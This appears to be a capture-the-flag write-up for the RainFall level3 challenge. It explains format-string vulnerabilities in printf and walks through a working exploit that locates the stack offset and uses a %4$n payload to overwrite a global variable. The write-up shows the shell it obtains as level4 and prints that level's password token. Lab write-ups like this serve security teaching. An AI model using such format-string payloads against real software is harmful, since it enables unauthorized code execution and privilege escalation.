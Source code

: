 

"fuzzing or fuzz testing = testing technique that involves providing invalid, unexpected, or random data
as inputs to a computer program = The program then crashes"

"one key thing in hacking is about giving non intended inputs to programs and observe its behavior"

retrieve five parameters from the stack and display them as 8-digit padded hexa
```
level3@RainFall:~$ ./level3

%08x %08x %08x %08x %08x

00000200 b7fd1ac0 b7ff37d0 78383025 38302520
```
Uncontrolled format string

"One may also write arbitrary data to arbitrary locations using the %n format token, which commands printf()
and similar functions to write the number of bytes formatted to an address stored on the stack."

wiki

%n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf()  before the occurrence of %n
https://www.geeksforgeeks.org/g-fact-31/

```
#include<stdio.h>

int main()
{
   int c;
   printf("123456789A%n     \n", &c);
   printf("%d", c);
   return 0;
    
    // output
    // 123456789A     
    // 10   
}
```

"the %n parameter, which writes the number of bytes already printed, into a variable of our choice.
The address of the variable is given to the format function by placing an integer pointer as parameter onto the stack."
https://cs155.stanford.edu/papers/formatstring-1.2.pdf

```
(gdb) run <<< "AAAA %p %p %p %p %p"

finding the offset of our input string in the stack
 
esp after fgets

(gdb) f
0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4f0:	0x41414141	0x20702520	0x25207025	0x70252070

level3@RainFall:~$ ./level3
AAAA %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```

41414141(the 4th hex value), 41 represent A so 4 is the offset of our input string in the stack.

from [the stanford article](https://cs155.stanford.edu/papers/formatstring-1.2.pdf):

```
a way to directly address a stack parameter from within the format string[...]
The direct parameter access is controlled by the ‘$’ qualifier.
printf ("%6$d\n", 6, 5, 4, 3, 2, 1);
Prints ‘1’, because the ‘6$’ explicitly addresses the 6th parameter on the
stack. 
```
```
Overwriting memory at any location

In printf(), %n is a special case format specifier. Instead of being replaced by a function argument,
%n will cause the number of characters written so far to be stored into the corresponding function argument.

For example, the following code will store the integer 5 into the variable num_char.

int num_char; 
printf("11111%n", &num_char);

https://vickieli.dev/binary%20exploitation/format-string-vulnerabilities/#overwriting-memory-at-any-location
```

so in our case

```
level3@RainFall:~$ ./level3
AAAA %p %4$x
AAAA 0x200 41414141
```

```
64 - 4 = 60

r <<< $(python -c 'print "\x08\x04\x98\x8c"[::-1] + "A" * 60  + "%4$n"')

=> 0x080484df <+59>:	cmp    $0x40,%eax

(gdb) p $eax
$3 = 64

(gdb) p m
$4 = 64

(gdb) x/d 0x804988c
0x804988c <m>:	64

level3@RainFall:~$ (python -c 'print "\x08\x04\x98\x8c"[::-1] + "A" * 60 + "%4$n"' ; cat ) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
pwd
/home/user/level3
whoami
level4
cat //home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
"A" * 60 <===> "%60c"

`(python -c 'print "\x08\x04\x98\x8c"[::-1] + "%60d" + "%4$n"' ; cat) | ./level3`

ressource

[1](https://medium.com/@gurdeeps158/exploit-format-string-vulnerability-in-printf-6740d9ff057e)

[2](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b)




